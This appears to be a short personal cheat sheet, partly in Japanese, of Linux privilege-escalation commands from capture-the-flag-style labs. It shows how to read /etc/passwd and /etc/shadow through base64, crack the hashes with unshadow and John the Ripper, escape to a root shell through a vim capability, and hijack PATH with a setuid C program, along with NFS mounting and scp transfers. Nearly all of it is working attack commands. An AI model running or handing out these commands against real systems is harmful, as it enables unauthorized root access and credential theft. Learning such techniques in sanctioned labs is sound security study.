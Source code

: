 ## SSH
### SCPでファイル転送(local to remote)
    scp file.exe karen@10.10.83.120:/tmp
### SCPでファイル転送(remote to local)
    scp sarah@10.10.138.61:/home/sarah/ww.mnf /home/z003y 

## Complie file.c
    gcc file.c -o exefilename   

## passwd & shadow (without cat)
    base64 /etc/passwd | base64 --decode
    base64 /etc/shadow | base64 --decode
    unshadow passwd.txt shadow.txt > hash.txt
    john --wordlist=wds/rockyou.txt hash.txt
    base64 /home/ubuntu/flag3.txt | base64 --decode

## Capabilities
    getcap -r / 2>/dev/null
    vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

## PATH
### path_exp.c
    #include<unistd.h>
    void main()
    { setuid(0);
      setgid(0);
      system("thm");
    }

### path_exp.c compile
    gcc path_exp.c -o path -w
    chmod u+s path

### add $PATH
    export PATH=/tmp:$PATH
    cd /tmp
    echo "/bin/bash" > thm
    chmod 777 thm
    ./thm

## mount
### ターゲットにマウント
    showmount -e 10.10.4.211 #マウント先の一覧
    mkdir /tmp/sharedfolder
    mount -o rw 10.10.4.211:/home/ubuntu/sharedfolder /tmp/sharedfolder
